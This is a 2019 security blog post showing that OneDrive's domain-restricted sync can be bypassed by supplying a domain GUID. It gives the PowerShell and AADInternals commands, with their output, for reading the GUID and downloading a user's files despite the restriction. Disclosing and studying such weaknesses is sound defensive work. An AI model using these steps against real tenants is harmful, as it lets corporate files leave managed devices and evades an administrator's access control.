 +++
title = "Bypassing OneDrive sync domain restrictions"
date = "2019-12-11"
lastmod = "2020-01-19"
categories =["blog"]
tags = ["OneDrive","Office365","AADInternals","Security"]
thumbnail = "/images/posts/OneDriveSync.png"
+++

OneDrive has a <a href="https://docs.microsoft.com/en-us/onedrive/allow-syncing-only-on-specific-domains" target="_blank">security option</a> to allow syncing only from PCs joined to specific domains.
In this blog, using the latest <a href="/aadinternals/#onedrive-for-business-functions">AADInternals</a> toolkit (announced at <a href="https://www.blackhat.com/eu-19/arsenal/schedule/index.html#aadinternals-powershell-module-for-administering-azure-ad-and-office--18117" target ="_blank">Black Hat Europe</a> 2019),  I'll show how the domain restrictions can be easily bypassed.

<!--more-->

# OneDrive synchronization client
OneDrive synchronization client (OneDrive.exe) is a client used to sync files between cloud (OneDrive & SharePoint) and computers. 
While this is a powerfull tool to keep your files current, it has some security issues. <br><br>
As one can connect to Office 365 and OneDrive from any computer, this allows downloading files to also computers that are not managed by the corporation. And this is not a good thing from security point-of-view.<br><br>
To address this issue, there is an option at <a href="https://admin.onedrive.com/?v=SyncSettings" target="_blank">OneDrive admin center</a> where the sync can be limited to PCs joined to specific domains.

<img src="/images/posts/OneDriveSync2.png">


This can also be set and viewed using PowerShell:
{{< highlight powershell >}}
# Get the SharePoint Online sync client restrictions
Get-SPOTenantSyncClientRestriction
{{< /highlight>}}
In this tenant, the restriction is enabled and limited to computers joined to the domain with guid of {667965e7-de8e-440d-adc3-371a35474a41}.
```
TenantRestrictionEnabled : True
AllowedDomainList        : {667965e7-de8e-440d-adc3-371a35474a41}
BlockMacSync             : True
ExcludedFileExtensions   : {}
OptOutOfGrooveBlock      : False
OptOutOfGrooveSoftBlock  : False
```

# How does the domain restriction work?
The OneDrive, as the most of the Office products and tools, is using REST APIs. So, the traffic between the OneDrive client and cloud is HTTP-based. 
Now, as the traffic is HTTP I started to wonder how does the cloud side know which domain the computer is joined. 
A quick check with Fiddler showed that the client sends a special header **X-MachineDomainInfo** containing the **domain guid** of the computer the OneDrive.exe is running on. <br><br>
As such, this really is not an security feature at all, as one can bypass the restriction as long as the guid is know.

To get a domain guid from a domain joined PC:
{{< highlight powershell >}}
# Get the domain name and guid
Get-WmiObject -Class Win32_NTDomain | select DomainName,DomainGuid
{{< /highlight>}}

The output should be similar to following, depending on the number of domains of the AD forest:
```
DomainName  DomainGuid                            
----------  ----------                            

COMPANY.COM {667965e7-de8e-440d-adc3-371a35474a41}
```

# Passing the domain restrictions
Version 0.2.7 of <a href="/aadinternals/#onedrive-for-business-functions">AADInternals</a> contains functions for downloading from and sending files to OneDrive for Business.

First, a OneDriveSettings object needs to created. This can be done using credentials, Kerberos ticket, SAML token, or interactive login as below (promtps twice for both OfficeApps and OneDrive APIs):
{{< highlight powershell >}}
# Create a new OneDriveSettings object
$os = New-AADIntOneDriveSettings
{{< /highlight>}}

Next, you can try to dowload the files from the user's OneDrive:
{{< highlight powershell >}}
# Download the files from user's OneDrive
Get-AADIntOneDriveFiles -OneDriveSettings $os | Format-Table
{{< /highlight>}}

If you got an error similar to following, the domain restrictions apply:
```
Invoke-ODCommand : Got 501 - try using a proper domain guid
At C:\Program Files\WindowsPowerShell\Modules\AADInternals\OneDrive.ps1:120 char:25
+ ... $response = Invoke-ODCommand -Command $command -OneDriveSettings $One ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Invoke-ODCommand
```

Now let's try again with the domain guid from the screenshot above:
{{< highlight powershell >}}
# Download the files from user's OneDrive with domain guid
Get-AADIntOneDriveFiles -OneDriveSettings $os -DomainGuid "667965e7-de8e-440d-adc3-371a35474a41" | Format-Table
{{< /highlight>}}

And now the files are downloading!

```
Path                              Size  Created            Modified           ResourceID                   
----                              ----  -------            --------           ----------                   
\RootFolder\Document1.docx        11032 2.12.2019 20.47.23 2.12.2019 20.48.46 5e7acf393a2e45f18c1ce6caa7...
\RootFolder\Book.xlsx             8388  2.12.2019 20.49.14 2.12.2019 20.50.14 b26c0a38d4d14b23b785576e29...
\RootFolder\Docs\Document1.docx   84567 9.12.2019 11.24.40 9.12.2019 12.17.50 d9d51e47b66c4805aff3a08763...
\RootFolder\Docs\Document2.docx   31145 7.12.2019 17.28.37 7.12.2019 17.28.37 972f9c317e1e468fb2b6080ac2...
```
